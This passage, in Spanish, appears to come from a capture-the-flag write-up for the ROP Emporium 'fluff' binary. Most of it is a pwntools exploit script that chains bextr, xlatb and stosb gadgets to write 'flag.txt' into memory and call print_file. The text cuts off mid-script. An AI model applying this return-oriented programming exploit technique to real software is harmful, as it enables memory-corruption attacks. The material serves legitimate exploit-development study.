 Una vez calculado el offset y encontrada una dirección de memoria con permisos de escritura, puedo comenzar a escribir el exploit.

### Escribir el exploit

El funcionamiento del exploit está explicado en los comentarios:

**exploit.py**

```python
#!/usr/bin/python3
from pwn import *

def set_rbx(value):
    rop.raw(bextr)
    rop.raw(p64(0x3f00))
    rop.raw(p64(value - 0x3ef2))

def set_rdi(value):
    rop.raw(pop_rdi)
    rop.raw(p64(value))

def write_char(write_addr, char_addr):
    set_rbx(char_addr)
    rop.raw(xlatb)
    set_rdi(write_addr)
    rop.raw(stosb)

def write_string(write_addr, string):
    index = 0
    last_char = 0xb     # Value in AL before exploitation
    for c in string:
        char = next(e.search(ord(c)))
        write_char(write_addr + index, char - last_char)
        last_char = ord(string[index])
        index +=1

# CONSTANTS
binary = "./fluff"
p = process(binary)
e = ELF(binary)
offset = b'A'*32
RBP = b'B'*8
print_file = 0x400620
writable_address = 0x601050

# DEBUG
#gdb.attach(p, "b* 0x400639")

# GADGETS
rop = ROP(p.elf)
bextr = p64(0x40062a)       # pop RDX ; pop RCX ; add RCX, 0x3ef2 ; bextr RBX, RCX, RDX
stosb = p64(0x400639)       # (stosb byte [RDI], AL) ==  (mov [RDI], AL ; add RDI, 1)
xlatb = p64(0x400628)       # xtlab ; ret == mov byte AL, [RBX + AL]
pop_rdi = p64(0x4006a3)     # pop RDI ; ret
print_file = p64(0x400620)  # call print_file

# BUILD ROP CHAIN
write_string(writable_address, "flag.txt")
set_rdi(writable_address)
rop.raw(print_file)

# CHECK ROP CHAIN
if(len(rop.chain()) > 472):
```